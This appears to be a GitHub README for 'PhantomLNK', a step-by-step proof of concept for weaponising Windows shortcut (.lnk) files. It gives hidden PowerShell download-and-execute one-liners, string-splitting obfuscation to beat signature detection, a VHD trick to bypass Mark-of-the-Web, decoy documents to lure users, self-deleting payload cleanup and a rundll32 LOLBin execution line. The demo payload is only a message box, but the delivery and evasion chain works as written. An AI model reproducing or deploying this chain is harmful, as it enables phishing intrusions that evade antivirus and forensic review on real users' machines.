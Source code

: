# PhantomLNK

This method minimizes detection risks, reduces "noise," and leverages modern living-off-the-land (LOL) techniques to mimic real-world attacks while keeping the payload harmless.

---

### **Improved PoC Workflow**  
**Objective**: Craft a `.lnk` file that:  
1. **Covertly downloads** a payload (no ZIP extraction).  
2. **Executes** it silently (no visible windows).  
3. **Self-destructs** to evade forensics.  

---

### **Step 1: Create a Minimal Payload**  
Compile `hello.exe` (as before) or use a lightweight scripting language like **VBScript**:  
```vbs
' hello.vbs  
MsgBox "Hello from a stealthy PoC!", vbInformation, "Legit App"  
```  
Host `hello.exe` or `hello.vbs` on a **HTTPS-enabled server** (e.g., GitHub Pages, AWS S3) to avoid HTTP scrutiny.  

---

### **Step 2: Craft the .lnk File**  
Use **PowerShell + COM Objects** for stealth:  
```powershell
# Target command for the .lnk file (one-liner):  
powershell -w hidden -c "$d=(New-Object Net.WebClient).DownloadString('https://RAW_GITHUB_URL/hello.vbs'); iex $d"  
```  
**Why this is better**:  
- Uses `Net.WebClient` (less logged than `Invoke-WebRequest`).  
- Directly executes code in memory (no disk writes for the script).  
- HTTPS hides traffic from basic network scans.  

---

### **Step 3: Obfuscate the Command**  
Break down the command to evade signature-based detection:  
```powershell
# Split strings and use aliases (e.g., `iex` = `Invoke-Expression`):  
powershell -w 1 -c "&('i'+'ex') (New-Object Net.WebClient).DownloadString('ht'+'tps://RAW_GITHUB_URL/hello.vbs')"  
```  

---

### **Step 4: Bypass Mark-of-the-Web (MotW)**  
To avoid security warnings when the `.lnk` is downloaded:  
1. **Host the .lnk in a VHD file**:  
   - Mount a **VHD** (Virtual Hard Disk) in your VM.  
   - Place the `.lnk` inside the VHD.  
   - When the VHD is mounted, Windows treats the `.lnk` as a "local file," bypassing MotW.  

```powershell
# Create a VHD (Windows VM):  
New-VHD -Path "C:\malicious.vhd" -SizeBytes 50MB -Dynamic  
Mount-VHD -Path "C:\malicious.vhd"  
Initialize-Disk -Number 1 -PartitionStyle MBR  
New-Partition -DiskNumber 1 -UseMaximumSize  
Format-Volume -DriveLetter X -FileSystem NTFS  
# Copy the .lnk to X:\ and unmount  
```  

---

### **Step 5: Simulate a Real-World Attack**  
1. **Add a decoy document**:  
   - Include a harmless PDF or DOCX in the VHD to trick the user into opening the `.lnk`.  
2. **Use environmental variables** for paths:  
   - Example: `%APPDATA%\Microsoft\Windows\Recent\` (masquerades as a recent document).  

---

### **Step 6: Execute Silently**  
For `.exe` payloads, use **WMI** (Windows Management Instrumentation) to run the process with no visible window:  
```powershell
# Embedded in the .lnk:  
powershell -w hidden -c "(New-Object Net.WebClient).DownloadFile('https://payload.url/hello.exe','%TEMP%\hello.exe'); Start-Process -WindowStyle Hidden '%TEMP%\hello.exe'"  
```  

---

### **Step 7: Cleanup Traces**  
Modify the payload to delete itself after execution:  
```vbs  
' hello.vbs  
MsgBox "Hello World!", vbInformation, "Test"  
CreateObject("WScript.Shell").Run "cmd /c del %TEMP%\hello.vbs", 0, True  
```  

---

### **Detection Evasion Tips**  
1. **Use trusted domains**: Host payloads on compromised-but-benign services (e.g., GitHub Gist, Google Drive).  
2. **LOLBins**: Leverage legitimate tools like `mshta`, `rundll32`, or `regsvr32` to execute code.  
   Example:  
   ```powershell
   rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -c ...")  
   ```  

---

### **Why This is More Efficient/Secure**  
- **No disk writes**: Execute code directly in memory (e.g., VBS/PowerShell scripts).  
- **HTTPS**: Avoids unencrypted traffic flags.  
- **Minimal footprint**: No extraction, fewer process spawns.  
- **LOLBin abuse**: Uses trusted Windows tools to blend in.  

---

### **Demo in a VM**  
1. Host `hello.vbs` on a raw GitHub URL.  
2. Create the `.lnk` with the obfuscated PowerShell command.  
3. Package the `.lnk` in a VHD with a decoy PDF.  
4. Mount the VHD in the VM and click the `.lnk`.  
5. The VBS runs silently and displays a harmless message.  

